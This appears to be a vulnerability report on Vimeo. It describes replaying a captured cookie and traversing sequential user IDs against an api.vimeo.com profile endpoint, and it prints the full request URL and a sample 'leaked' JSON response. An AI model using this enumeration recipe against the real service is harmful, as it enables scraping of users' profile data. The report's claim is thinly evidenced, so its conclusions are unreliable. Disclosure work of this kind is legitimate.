 # About Vimeo Website Information Disclosure Security Vulnerability Description

## 1 Security vulnerability implementation steps 
### 1.1 Get Header request data
Intercept browser Cookie information after logging in by a valid user.
```
Cookie:_cfuvid=hbeB.2xgQOS26X0B6BLFKGZPOAwQCxTNQNCay79EDvU-1712127143589-0.0.1.1-604800000; path=/; domain=.vimeo.com; HttpOnly; Secure; SameSite=None
```

### 1.2 Add cookie to the replay attack HTTP Request Header

## 2 Disclosure of user information by replay attack

> Leaked information includes: username,created_time,etc.

> Request method: GET, information can be obtained by traversing user id,such as "215028643","215028642"...

API URL\application unit and request parameters of verified project information leakage are shown in the following table:

| authenticated user | API URL | Request params |
|---------|---|-------------|
|Shixip Yahoo|https://api.vimeo.com/users/user215028643?fields=name%2Cgender%2Cbio%2Curi%2Clink%2Cbackground_video%2Clocation_details%2Cpictures%2Cverified%2Cmetadata.public_videos.total%2Cavailable_for_hire%2Ccan_work_remotely%2Cmetadata.connections.videos.total%2Cmetadata.connections.albums.total%2Cmetadata.connections.followers.total%2Cmetadata.connections.following.total%2Cmetadata.public_videos.total%2Cmetadata.connections.vimeo_experts.is_enrolled%2Ctotal_collection_count%2Ccreated_time%2Cprofile_preferences%2Cmembership%2Cclients%2Cskills%2Cproject_types%2Crates%2Ccategories%2Cis_expert%2Cwebsites%2Ccontact_emails&fetch_user_profile=1|user215028643|



### Leaked packet cases 
``` 
{
    "uri": "/users/215028643",
    "name": "shixip Yahoo",
    "link": "https://vimeo.com/user215028643",
    "gender": "m",
    "bio": "t678irf5iytdfoyigvuydretxzikhlo",
    ...
    "created_time": "2024-02-05T11:13:08+00:00",
    "pictures": {
        "uri": null,
        "active": false,
        "type": "default",
        "base_link": "https://i.vimeocdn.com/portrait/defaults-blue",
        
    "location_details": {
        "formatted_address": "",
        "latitude": null,
        "longitude": null,
        "city": null,
        "state": null,
        "neighborhood": null,
        "sub_locality": null,
        "state_iso_code": null,
        "country": null,
        "country_iso_code": null
    },
    ...
    "project_types": [],
    "categories": [],
    "background_video": [],
    "verified": true,
    "is_expert": false
}
```